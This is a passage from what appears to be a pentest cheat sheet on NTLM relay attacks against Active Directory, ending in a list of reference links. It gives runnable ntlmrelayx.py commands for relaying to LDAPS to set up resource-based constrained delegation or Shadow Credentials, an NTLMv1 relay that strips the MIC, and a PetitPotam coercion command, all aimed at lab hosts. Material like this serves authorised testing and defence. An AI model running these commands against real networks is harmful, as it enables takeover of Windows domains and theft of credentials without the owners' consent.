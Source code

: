 ```bash
```
5. A successful relay to ldap(s) protocol could be further escalated to [RBCD](#resource-based-constrained-delegation) or [Shadow Credentials](#shadow-credentials) attack. Below are the commands example.
```bash
# RBCD with ntlmrelayx.py
ntlmrelayx.py -t ldaps://dc01.range.net -smb2support --delegate-access

# Shadow Creds
ntlmrelayx.py -t ldaps://dc01.range.net -smb2support --shadow-credentials --shadow-target 'ca01$'
```

### NetNTLMv1 to LDAP
```bash
ntlmrelayx.py -t ldaps://ca01.range.net -smb2support --remove-mic -i

python3 PetitPotam.py 192.168.86.193 192.168.86.182
```

### Relay Notes
![Relay Roadmap](./src/relay_list.png)
* [KrbRelayUP](https://twitter.com/an0n_r0/status/1519344255143141376?s=20&t=nk-MeM42nRevaMPNOvQDoA)
* [RPC2RBCD](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb)
* [lookupsid](https://twitter.com/an0n_r0/status/1506824658838040580?s=20&t=HJ9qD6GkzCvg1p24XZ6A2Q)
* [Kerberos Relay over DNS](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)
* [Flangvik's VOD RPC2RBCD](https://www.youtube.com/watch?v=axPkf_kLpMA)
* [NTLMv1 Downgrade](https://twitter.com/theluemmel/status/1454774400553787394?s=20&t=V55BIRuHPzUSLDOEdVCfEg)
* [NTLMv1 Downgrade Requirements](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ntlm/ntlmv1-downgrade)
* https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay